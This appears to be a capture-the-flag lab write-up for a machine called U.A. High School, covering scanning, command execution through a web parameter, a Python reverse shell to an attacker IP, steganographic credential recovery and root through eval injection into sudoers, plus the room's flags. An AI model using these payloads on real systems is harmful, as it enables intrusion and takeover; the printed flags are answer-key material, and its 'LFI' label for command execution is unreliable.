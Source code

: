 # U.A. High School CTF Write-Up

## Overview
This write-up details the **compromise of the U.A. High School machine**, beginning with **reconnaissance** and leading to **privilege escalation**. The objective was to gain initial access as `deku` and escalate privileges to **root**.

---

## 🔎 Reconnaissance
We started by scanning the target to identify open ports:
```bash
nmap -sS -oN nmap_initial.txt school.thm
nmap -A -p80 -oN nmap_http.txt school.thm
```
Findings:
✅ Open **SSH and HTTP ports**  
✅ Apache web server running  
✅ `/assets` and `/server-status` directories discovered via `gobuster`

---

## 🛠 Exploiting LFI (Local File Inclusion)
We found an **LFI vulnerability** in `index.php`:
```bash
http://school.thm/assets/index.php?cmd=whoami
# Output: d3d3LWRhdGEK (base64 decoded → `www-data`)
```
Exploiting LFI further:
```bash
http://school.thm/assets/index.php?cmd=cat /etc/apache2/sites-enabled/000-default.conf
```
Using LFI for **reverse shell execution**:
```bash
http://school.thm/assets/index.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.6.11",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

---

## 💻 Reverse Shell Stabilization
Once inside, we stabilized our access:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```
Confirming access:
```bash
whoami && hostname
# Output: www-data@myheroacademia
```

---

## 🔍 User Enumeration
Checking for users:
```bash
cat /etc/passwd | cut -d: -f1
```
Discovered **user `deku`**. Attempted login via:
```bash
su - deku  # Failed
ssh deku@school.thm  # Failed
```
Found **a hidden passphrase file**:
```bash
cat /var/www/Hidden_Content/passphrase.txt
# Decoded Output: AllmightForEver!!!
```

---

## 📷 Image Analysis & Credential Extraction
A **hidden image (`oneforall.jpg`)** was discovered:
1. **Downloaded image** → `wget http://school.thm/assets/images/oneforall.jpg`
2. **Metadata analysis** → `exiftool oneforall.jpg` (misclassified as PNG)
3. **Hex edited to restore as JPEG**
4. **Steganography extraction** → `steghide extract -sf oneforall.jpg`
   - Passphrase: `AllmightForEver!!!`
   - Extracted credentials: `One?For?All_!!one1/A`

---

## 🔑 Obtaining User Flag
Using extracted credentials:
```bash
ssh deku@school.thm
```
Confirming access:
```bash
sudo -l
```
Retrieving `user.txt`:
```bash
cat /home/deku/user.txt
# Output: THM{W3lC0m3_D3kU_1A_0n3f0rAll??}
```

---

## 🚀 Privilege Escalation
Examining `feedback.sh`:
```bash
cat /opt/NewComponent/feedback.sh
```
Key vulnerability: **Use of `eval`, allowing potential command injection**.

Injected privilege escalation payload:
```bash
echo 'deku ALL=NOPASSWD: ALL >> /etc/sudoers' | sudo /opt/NewComponent/feedback.sh
```
Checking sudo permissions:
```bash
sudo -l
# Output: (root) NOPASSWD: ALL
```

Final escalation:
```bash
sudo /bin/bash
whoami
# Output: root
```
Retrieving `root.txt`:
```bash
cat /root/root.txt
# Output: THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
```

---

## 🎯 Conclusion
This challenge was tackled **methodically**, leveraging:
✅ **LFI exploitation**  
✅ **Reverse shell stabilization**  
✅ **Credential extraction via steganography**  
✅ **Privilege escalation via `feedback.sh` injection**  

Final achievements:
✅ **Root access obtained**  
✅ **User & root flags captured**  


